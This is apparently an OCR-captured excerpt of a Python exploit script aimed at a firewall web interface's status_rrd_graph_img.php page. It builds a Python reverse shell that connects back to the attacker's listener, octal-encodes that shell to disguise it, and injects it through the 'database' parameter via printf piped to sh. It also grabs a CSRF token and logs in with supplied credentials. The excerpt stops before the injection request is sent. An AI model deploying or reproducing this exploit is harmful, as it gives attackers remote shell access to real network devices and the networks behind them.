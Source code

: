 ```python
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'), 
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)
	
	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]
	
except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)
```
